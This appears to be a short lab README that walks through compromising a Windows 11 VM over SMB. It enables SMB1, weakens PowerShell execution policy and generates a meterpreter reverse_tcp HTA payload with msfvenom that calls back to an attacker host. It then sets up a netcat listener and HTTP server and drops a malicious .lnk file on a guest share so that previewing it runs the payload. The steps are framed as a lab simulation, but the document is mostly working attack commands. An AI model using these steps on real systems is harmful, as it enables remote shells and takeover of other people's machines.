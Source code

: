 # Steps:

Simulate SMB vulnerability in Win11 VM:
- Enable SMB1:
    - From the start menu, search for `Turn Windows features on or off`.
    - Select `SMB 1.0 ...` then select `Ok`, the installation will start, then the VM will be restarted.
- In admin PowerShell, enable scripting `Set-ExecutionPolicy RemoteSigned -Scope LocalMachine`.
- Download `smb1-vulnerability.ps1` and run it in the admin PowerShell window.

Steps in Kali:
- Create a shortcut file:
    - Run `lnk-creator.sh`, make sure the *.lnk file is in the Desktop.
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.10 LPORT=4444 -f hta-psh > exploit.hta`.
    - Run `python3 -m http.server 80` and leave it running.
    - Open new terminal for Metasploit:
        - nc -lvnp 4444
    - Open new terminal smb client
        - Use `smbclient //192.168.8.40/Sharing -U guest`.
        - There is no password for guest user, so just hit `Enter` key for password.
        - Use `put exploit.lnk`, to upload the created link file to Win11.
        - In Win11, open `Sharing` folder and click on `exploit.lnk` to be previewed, this will activate the malware.
